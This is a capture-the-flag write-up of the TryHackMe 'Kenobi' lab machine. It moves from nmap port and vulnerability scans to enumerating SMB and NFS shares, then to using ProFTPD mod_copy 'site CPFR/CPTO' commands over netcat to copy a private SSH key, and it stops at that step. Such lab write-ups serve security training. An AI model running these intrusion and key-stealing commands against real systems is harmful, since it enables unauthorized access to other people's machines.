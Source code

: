 # Kenobi
My own Writeup of machine Kenobi (Tryhackme)

¡¡¡ IMPORTANT !!!
### First of all, connect to your tryhackme vpn.
¡¡¡ IMPORTANT !!!

1. Scan the machine, i use this command to scan open ports in the machine:

````nmap -T5 -p- -n -v <ip>````
  
![Screenshot_1](https://user-images.githubusercontent.com/80575736/111028536-849d6380-83f7-11eb-8356-e13b67d6fe01.png)

With this information we can show a few open ports, for example port 21 (ftp), port 22 (ssh), port 111 (rpcbind) port 445 (smb), port 139 (NetBios) and port 445 (Shared_folders SMB)

In this machine we have to explotate SMB shared folders port (445), and ftp (21)

2. When we have open ports in the machine, we have to try internal nmap scripts to see a few vulnerabilities. We can try with this:

```nmap --script=vuln <ip> ```

For my i try this command and works better for me:

``` nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <ip>```

![Screenshot_2](https://user-images.githubusercontent.com/80575736/111028824-87995380-83f9-11eb-881f-44023f30b244.png)

This command show the shared folders of the vulnerable machine, and we can watch a share with name "anonymous".

3. Connect with smbclient to see what there is in.

``` smbclient //<ip>/shared_folder```

![Screenshot_3](https://user-images.githubusercontent.com/80575736/111029377-b533cc00-83fc-11eb-8e64-8c7367b52469.png)

To show subfolders and files, we can use command ```ls``` like in linux terminal.

![Screenshot_16](https://user-images.githubusercontent.com/80575736/111029450-ef04d280-83fc-11eb-8ffb-360bad8ad4dd.png)

We see a  intersting file name log.txt

4. Copy the previous file (log.txt) in our machine.

```smbget -R smb://<ip>/shared_folder```
This command copy all folders and files recursively.

![Screenshot_4](https://user-images.githubusercontent.com/80575736/111029700-55d6bb80-83fe-11eb-90cc-44e8729870bc.png)

When we read file log.txt, we can appreciate:
- Information generated for Kenobi when generating an SSH key for the user
- Information about the ProFTPD server.

5. In our case, port 111 is access to a network file system. Lets use nmap to enumerate this.

```nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <ip>```

![Screenshot_5](https://user-images.githubusercontent.com/80575736/111030205-4e64e180-8401-11eb-85a2-7e27491d9d16.png)

This command provide us folder of file systems mounted by clients. in our case /var 

6. We go to search a exploit of the ftp server of the vulnerable machine "proftpd".

``` searchsploit proftpd 1.3.5```

![Screenshot_6](https://user-images.githubusercontent.com/80575736/111030486-cb448b00-8402-11eb-8d99-e29502e59f14.png)

We execute the previous command, and its show three exploits of service "proftpd"


7. Go to connect to ftp server via netcat with this command:

``` nc <ip> <port> ```

![Screenshot_7](https://user-images.githubusercontent.com/80575736/111030610-8a00ab00-8403-11eb-9848-c6991de16fb9.png)

Now we are inside ftp server, and we have to use this command to copy id_rsa to before connect via ssh to gain access with the user Kenobi.

```site CPFR /home/kali/.ssh/id_rsa ```
``` site CPTO /var/tmp/id_rsa```

![Screenshot_8](https://user-images.githubusercontent.com/80575736/111030943-54f55800-8405-11eb-9bd9-4099600dcf03.png)




